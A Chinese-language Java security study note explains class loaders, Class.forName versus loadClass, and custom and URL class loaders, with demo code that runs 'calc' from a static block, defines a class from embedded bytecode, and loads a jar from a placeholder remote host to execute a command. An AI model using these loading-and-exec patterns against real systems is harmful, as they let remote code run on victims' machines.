

# ClassLoader(类加载机制)

## ClassLoader(类加载机制)

Java程序在运行前需要先编译成`class文件`，Java类初始化的时候会调用`java.lang.ClassLoader`加载类字节码，`ClassLoader`会调用JVM的native方法（`defineClass0/1/2`）来定义一个`java.lang.Class`实例。

## 类加载器简介

**启动类加载器(Bootstrap ClassLoader):**

　　　　这个类加载器负责将\lib目录下的类库加载到虚拟机内存中,用来加载java的核心库,此类加载器并不继承于java.lang.ClassLoader,不能被java程序直接调用,代码是使用C++编写的.是虚拟机自身的一部分.

**扩展类加载器(Extendsion ClassLoader):**

这个类加载器负责加载\lib\ext目录下的类库,用来加载java的扩展库,开发者可以直接使用这个类加载器.

**应用程序类加载器(Application ClassLoader):**

　　　　这个类加载器负责加载用户类路径(CLASSPATH)下的类库,一般我们编写的java类都是由这个类加载器加载,这个类加载器是CLassLoader中的getSystemClassLoader()方法的返回值,所以也称为系统类加载器.一般情况下这就是系统默认的类加载器.


　　除此之外,我们还可以加入自己定义的类加载器,以满足特殊的需求,需要继承java.lang.ClassLoader类.

　　类加载器之间的层次关系如下图:



## ClassLoader

所有的Java类都必须经过JVM加载后才能运行，`ClassLoader`的主要作用就是Java类文件的加载。在JVM类加载器中最顶层的是`Bootstrap ClassLoader（引导类加载器）`、`Extension ClassLoader（扩展类加载器）`、`App ClassLoader（系统类加载器）`，`AppClassLoader`是默认的类加载器，如果类加载时我们不指定类加载器的情况下，默认会使用`AppClassLoader`加载类，`ClassLoader.getSystemClassLoader()`返回的系统类加载器也是`AppClassLoader`。

某些时候我们获取一个类的类加载器时候可能会返回一个`null`值，如:`java.io.File.class.getClassLoader()`将返回一个`null`对象，因为`java.io.File`类在JVM初始化的时候会被`Bootstrap ClassLoader（引导类加载器）`加载（该类加载器实现于JVM层，采用C++编写），我们在尝试获取被`Bootstrap ClassLoader`类加载器所加载的类的`ClassLoader`时候都会返回`null`

## 类加载器的核心方法

1. `loadClass`（加载指定的Java类）
2. `findClass`（查找指定的Java类）
3. `findLoadedClass`（查找JVM已经加载过的类）
4. `defineClass`（定义一个Java类）
5. `resolveClass`（链接指定的Java类）


## Java类动态加载方式

Java类加载方式分为`显式`和`隐式`,`显式`即我们通常使用`Java反射`或者`ClassLoader`来动态加载一个类对象，而`隐式`指的是`类名.方法名()`或`new`类实例。`显式`类加载方式也可以理解为类动态加载，我们可以自定义类加载器去加载任意的类。

```java
Class.forName(className)
// 等于
Class.forName(className, true, currentLoader)
```

比较重要的是`Class.forName("类名")`默认会初始化被加载类的静态属性和方法，因此可以注入恶意代码

```Java
public class Test {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

而`ClassLoader.loadClass`默认不会初始化类方法

```Java
public class MyTest {
    public  void abc() throws ClassNotFoundException {
        this.getClass().getClassLoader().loadClass("evil.Test");
    }
    public static void main(String[] args) throws Exception{
//        Class.forName("evil.Test");
        MyTest myTest = new MyTest();
        myTest.abc();

    }
}

```

## ClassLoader类加载流程

结合看看双亲委派更好https://github.com/Stakcery/JavaSec/blob/main/1.%E5%9F%BA%E7%A1%80%E7%9F%A5%E8%AF%86/%E7%B1%BB%E5%8A%A0%E8%BD%BD%E5%99%A8%E4%B8%8E%E5%8F%8C%E4%BA%B2%E5%A7%94%E6%B4%BE%E6%A8%A1%E5%9E%8B/%E7%B1%BB%E5%8A%A0%E8%BD%BD%E5%99%A8%E4%B8%8E%E5%8F%8C%E4%BA%B2%E5%A7%94%E6%B4%BE%E6%A8%A1%E5%9E%8B.md


## 自定义ClassLoader

这里我写了一个弹出计算器的

```Java
package evil;

import javassist.CannotCompileException;
import javassist.ClassPool;
import javassist.NotFoundException;

import java.io.IOException;
import java.lang.reflect.Method;

public class MyClassLoader extends ClassLoader {
    public static String className = "evil.Testt";
    public  byte[] classBytes = new byte[]{-54,-2,-70,-66,0,0,0,51,0,56,10,0,11,0,30,10,0,31,0,32,8,0,33,10,0,31,0,34,7,0,35,10,0,5,0,36,9,0,37,0,38,8,0,39,10,0,40,0,41,7,0,42,7,0,43,1,0,6,60,105,110,105,116,62,1,0,3,40,41,86,1,0,4,67,111,100,101,1,0,15,76,105,110,101,78,117,109,98,101,114,84,97,98,108,101,1,0,18,76,111,99,97,108,86,97,114,105,97,98,108,101,84,97,98,108,101,1,0,4,116,104,105,115,1,0,12,76,101,118,105,108,47,84,101,115,116,116,59,1,0,4,67,97,108,99,1,0,1,101,1,0,21,76,106,97,118,97,47,105,111,47,73,79,69,120,99,101,112,116,105,111,110,59,1,0,13,83,116,97,99,107,77,97,112,84,97,98,108,101,7,0,35,1,0,4,109,97,105,110,1,0,22,40,91,76,106,97,118,97,47,108,97,110,103,47,83,116,114,105,110,103,59,41,86,1,0,4,97,114,103,115,1,0,19,91,76,106,97,118,97,47,108,97,110,103,47,83,116,114,105,110,103,59,1,0,10,83,111,117,114,99,101,70,105,108,101,1,0,10,84,101,115,116,116,46,106,97,118,97,12,0,12,0,13,7,0,44,12,0,45,0,46,1,0,4,99,97,108,99,12,0,47,0,48,1,0,19,106,97,118,97,47,105,111,47,73,79,69,120,99,101,112,116,105,111,110,12,0,49,0,13,7,0,50,12,0,51,0,52,1,0,3,49,50,51,7,0,53,12,0,54,0,55,1,0,10,101,118,105,108,47,84,101,115,116,116,1,0,16,106,97,118,97,47,108,97,110,103,47,79,98,106,101,99,116,1,0,17,106,97,118,97,47,108,97,110,103,47,82,117,110,116,105,109,101,1,0,10,103,101,116,82,117,110,116,105,109,101,1,0,21,40,41,76,106,97,118,97,47,108,97,110,103,47,82,117,110,116,105,109,101,59,1,0,4,101,120,101,99,1,0,39,40,76,106,97,118,97,47,108,97,110,103,47,83,116,114,105,110,103,59,41,76,106,97,118,97,47,108,97,110,103,47,80,114,111,99,101,115,115,59,1,0,15,112,114,105,110,116,83,116,97,99,107,84,114,97,99,101,1,0,16,106,97,118,97,47,108,97,110,103,47,83,121,115,116,101,109,1,0,3,111,117,116,1,0,21,76,106,97,118,97,47,105,111,47,80,114,105,110,116,83,116,114,101,97,109,59,1,0,19,106,97,118,97,47,105,111,47,80,114,105,110,116,83,116,114,101,97,109,1,0,7,112,114,105,110,116,108,110,1,0,21,40,76,106,97,118,97,47,108,97,110,103,47,83,116,114,105,110,103,59,41,86,0,33,0,10,0,11,0,0,0,0,0,3,0,1,0,12,0,13,0,1,0,14,0,0,0,47,0,1,0,1,0,0,0,5,42,-73,0,1,-79,0,0,0,2,0,15,0,0,0,6,0,1,0,0,0,5,0,16,0,0,0,12,0,1,0,0,0,5,0,17,0,18,0,0,0,1,0,19,0,13,0,1,0,14,0,0,0,107,0,2,0,2,0,0,0,18,-72,0,2,18,3,-74,0,4,87,-89,0,8,76,43,-74,0,6,-79,0,1,0,0,0,9,0,12,0,5,0,3,0,15,0,0,0,22,0,5,0,0,0,8,0,9,0,11,0,12,0,9,0,13,0,10,0,17,0,12,0,16,0,0,0,22,0,2,0,13,0,4,0,20,0,21,0,1,0,0,0,18,0,17,0,18,0,0,0,22,0,0,0,7,0,2,76,7,0,23,4,0,9,0,24,0,25,0,1,0,14,0,0,0,55,0,2,0,1,0,0,0,9,-78,0,7,18,8,-74,0,9,-79,0,0,0,2,0,15,0,0,0,10,0,2,0,0,0,15,0,8,0,16,0,16,0,0,0,12,0,1,0,0,0,9,0,26,0,27,0,0,0,1,0,28,0,0,0,2,0,29};


    @Override
    protected Class<?> findClass(String name) throws ClassNotFoundException {
        System.out.println(name);
        if (name.equals(className)) {
            return defineClass(className, classBytes, 0, classBytes.length);
        }
        return super.findClass(name);
    }

    public static void main(String[] args) throws Exception {

        MyClassLoader myClassLoader = new MyClassLoader();
        Class aClass = myClassLoader.loadClass(className);
        Object obj = aClass.newInstance();
        Method calc = obj.getClass().getMethod("Calc");
        calc.invoke(obj,null);
    }


}

```

## URLClassLoader

### Linux下打包jar

命令

```cmd
jar cvfm 1.jar ./META-INF/MAINFEST.MF *.class
```

创建META-INF/MAINFEST.MF，内容为，最后记得空格

```xml
Manifest-Version: 1.0

```

exp目录下写类，并编译javac exp.java

```java
package exp;
import java.io.IOException;

public class Test {
    public static Process exec(String cmd) throws IOException {
        return Runtime.getRuntime().exec(cmd);
    }

    public static void main(String[] args) {
        System.out.println("1333");
    }
}

```

### 一个示例

```java
package evil;


import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.net.URL;
import java.net.URLClassLoader;

public class MyURLClassloader {
    public static void main(String[] args) throws Exception{
        URL url = new URL("http://xxxx/33.jar");
        URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{url});
        Class test = urlClassLoader.loadClass("Test");
        Process process = (Process) test.getMethod("exec", String.class).invoke(null, "dir");
        BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(process.getInputStream()));
        String line=null;
        StringBuffer br=new StringBuffer();
        while ((line=bufferedReader.readLine())!=null) {
            br.append(line+"\n");
        }
        System.out.println(br.toString());

    }
}

```


## 参考文章

https://blog.csdn.net/briblue/article/details/54973413

https://www.jianshu.com/p/554c138ca0f5

